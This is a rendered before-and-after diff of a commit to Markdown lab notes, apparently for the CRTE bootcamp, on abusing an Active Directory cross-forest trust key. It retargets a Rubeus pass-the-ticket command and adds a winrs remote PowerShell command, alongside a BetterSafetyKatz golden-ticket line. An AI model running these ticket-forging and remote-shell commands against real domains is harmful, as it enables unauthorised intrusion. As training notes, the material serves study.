

Before and after one commit to brianyaucy/PA-CRTEBootcamp, a Markdown page: l25-XForestTrustKey.md, 2 parts joined by grey strips. Rendered like a GitHub page; pictures changed too: images/032f69407eb3bf2af05a62e69ad4acba6338ac4998b84fd8596302000dd240f2.png (added), images/ff4ae45ff66cf0a67be61f83b9aaa2977d446fe086933e9860d76784bb1cd7d7.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Content updaet

````diff
--- a/l25-XForestTrustKey.md
+++ b/l25-XForestTrustKey.md
@@ -197,7 +197,7 @@ C:\Users\Public\BetterSafetyKatz.exe "kerberos::golden /user:administrator /doma
 Then use `Rubeus.exe` to ptt:
 
 ```
-C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\euvendoreuadmin.kirbi /service:HTTP/euvendor-dc.euvendor.local,HOST/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
+C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\euvendoreuadmin.kirbi /service:HTTP/euvendor-net.euvendor.local,HOST/euvendor-net.euvendor.local /dc:euvendor-dc.euvendor.local /ptt
 ```
 
 ![picture 13](images/55e82334c5dda12b0b4d0fdb58629187e9e9a909f42602c155f1a41a348c9368.png)
@@ -216,6 +216,18 @@ Get-ADComputer -Filter * -Server euvendor.local | Select name
 Invoke-Command -Scriptblock {hostname; whoami} -ComputerName euvendor-net.euvendor.local -Authentication NegotiateWithImplicitCredential
 ```
 
+![picture 15](images/032f69407eb3bf2af05a62e69ad4acba6338ac4998b84fd8596302000dd240f2.png)
+
+
+<br/>
+
+
+Try to get a powershell session on `euvendor-net`:
+
 ```
-winrs -r:euvendor-net.euvendor.local cmd.exe
+winrs -r:euvendor-net.euvendor.local powershell.exe
 ```
+
+![picture 16](images/ff4ae45ff66cf0a67be61f83b9aaa2977d446fe086933e9860d76784bb1cd7d7.png)
+
+---
````
